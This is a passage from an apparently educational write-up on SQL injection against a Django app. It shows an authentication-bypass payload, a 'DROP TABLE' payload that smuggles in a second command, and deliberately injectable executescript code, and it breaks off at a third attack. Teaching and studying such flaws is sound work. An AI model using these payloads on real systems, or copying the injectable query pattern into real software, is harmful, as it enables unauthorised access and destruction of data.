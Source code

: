 #### **Attack Payload:**
```sql
Username: admin' OR '1'='1' --
Password: anything
```

#### **What Happens:**
```sql
-- Original intended query:
SELECT username, password_hash, salt FROM mainapp_user WHERE username = 'admin'

-- Malicious injected query:
SELECT username, password_hash, salt FROM mainapp_user WHERE username = 'admin' OR '1'='1' --'

-- Result: '1'='1' is always true, returns all users, bypasses authentication
```

---

### **🎯 Attack 2: Database Destruction**

#### **Vulnerable Code Location:**
```python
# mainapp/views.py - register() function
cursor.executescript(f"""
    INSERT INTO mainapp_user (username, email, password_hash, salt)
    VALUES ('{username}', '{email}', '{password_hash}', '{salt_hex}');
""")
```

#### **Attack Payload:**
```sql
Username: test'; DROP TABLE mainapp_user; --
Email: test@test.com
Password: anything123
```

#### **What Happens:**
```sql
-- Intended query:
INSERT INTO mainapp_user (...) VALUES ('test', 'test@test.com', 'hash', 'salt');

-- Malicious query:
INSERT INTO mainapp_user (...) VALUES ('test'; DROP TABLE mainapp_user; --', 'test@test.com', 'hash', 'salt');

-- Result: User created, then entire user table deleted!
```

---

### **🎯 Attack 3: Data Manipulation**
